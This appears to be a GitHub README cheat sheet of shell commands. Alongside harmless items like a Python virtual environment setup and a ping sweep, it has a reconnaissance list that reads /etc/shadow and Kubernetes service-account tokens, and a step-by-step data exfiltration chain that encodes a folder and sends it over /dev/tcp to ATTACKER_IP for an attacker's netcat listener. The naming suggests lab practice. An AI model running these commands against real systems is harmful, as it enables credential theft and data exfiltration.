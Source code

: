 # knowledge-db
Various commands, scripts and how-to documents

### Retrieve Wi-Fi Passwords on MacOS 

    security find-generic-password -ga "HomeWiFi"

### Bash Ping Sweep 🛰️
---
    subnet="192.168.1"; for ip in {1..254}; do ping -c 1 -W 1 "${subnet}.${ip}" > /dev/null 2>&1 && echo "Host ${subnet}.${ip} is up" || echo "Host ${subnet}.${ip} is down"; done

### Python Virtual Environment 🦾
---
Go to your project folder and run:

    python3 -m venv venv
    source ./venv/bin/activate
    deactivate

### Poking Around 👀
```
id
uname -a
env
df 
mount 
ps -aux 
cat /etc/mtab
docker -version
capsh —print #printCapabilities
ifconfig | grep inet
cat /etc/shadow

/var/run/secrets/kubernetes.io/serviceaccount/token
/var/run/secrets/kubernetes.io/serviceaccount/namespace
/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Data Exfiltration via TCP Socket 👀
---
Exfiltrate data over TCP using data encoding. 

- attackerMachine - listen & safe
   - ```nc -lvp 8080 > /tmp/task4-creds.data```

- victimMachine - zip & convert & send via TCP
   - ```tar zcf - folderToZip/ | base64 | dd conv=ebcdic > /dev/tcp/ATTACKER_IP/8080```

- attackerMachine - convert 
   - ```dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar```
- unzip
   - ```tar xvf task4-creds.tar```

